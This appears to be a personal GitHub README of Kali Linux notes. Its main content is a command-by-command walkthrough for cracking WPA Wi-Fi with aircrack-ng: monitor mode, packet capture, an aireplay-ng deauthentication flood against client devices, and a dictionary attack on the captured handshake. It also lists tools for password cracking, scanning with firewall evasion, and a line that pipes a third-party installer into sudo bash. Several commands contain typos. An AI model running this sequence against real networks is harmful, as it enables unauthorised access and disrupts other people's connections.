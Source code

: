 # aircrack-ng-

https://www.youtube.com/watch?v=77cWBybyvV4
// this is for quadcomm adapter

iwconfig
ifconfig
airmon-ng check kill
airmon-ng start wlan0
iwconfig
airodump-ng wlan0mon
ctri c
airodump-ng -cX -w capture -d MACADD wlan0mon 
new root
aireplay-ng --deauth 0 -a MACADD -c DEVICEMACADD wlan0mon 
wait for WPA hadshake then stop deauth

ls
wireshark capture-X.cap 
-filter for eapol
airmon-ng stop wlan0mon 
iwconfig 
aircrack-ng capture-X.cap -w /usr/share/dict/words

///////////////////////////////////////////////////////////////////////////////////////////////////////////////

https://github.com/aircrack-ng/rtl8188eus
//instalation 

    sudo apt update
    sudo apt upgrade
    sudo apt-get dist-upgrade
    reboot
    sudo apt-get install linux-headers-$(uname -r)
    sudo apt install bc
    sudo apt-get install build-essential
    sudo apt-get install libelf-dev
    sudo apt install dkms
    sudo rmmod r8188eu.ko
    git https://github.com/drygdryg/rtl8188eus (This works for me joy)
    cd rtl8188eus
    sudo -i
    echo 'blacklist r8188eu'|sudo tee -a '/etc/modprobe.d/realtek.conf'
    reboot
    cd rtl8188eus
    sudo make && make install
    reboot


// enter monitor mode

$ sudo airmon-ng check kill
$ sudo ip link set <interface> down
$ sudo iw dev <interface> set type monitor

//enter manage mode 

$ sudo iw dev <interface> set type managed
service NetworkManager restart 
 ////////////////////////////////////////////////////////////////////////////////////////////////////////////////
 
 Things to do with kali linux
 
 1. nmap for information gathering. In other words, to get insights about the host, its IP address, OS detection, and similar network security details (like the number of open ports and what they are). firewall evasion and spoffing. 
 
 2. WPscan is WordPress security auditing tool.
 
 3. Hydra is for cracking login/password
 
 4. Maltego is an impressive data mining tool to analyze information online and connect the dots (if any). As per the information, it creates a directed graph to help analyze the link between those pieces of data. 

5. Apktook is  reverse engineering Android apps. 

6. Autopsy is a digital forensic tool to investigate what happened on your computer. Well, you can also use it to recover images from SD card. It is also being used by law enforcement officials. You can read the documentation to explore what you can do with it.

7. pyrit 
git clone https://github.com/hacker3983/pyrit-installer && cd pyrit-installer && sudo bash install.sh
    
/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
    
    To remove locked files 
    chmod a+rwx <filename>
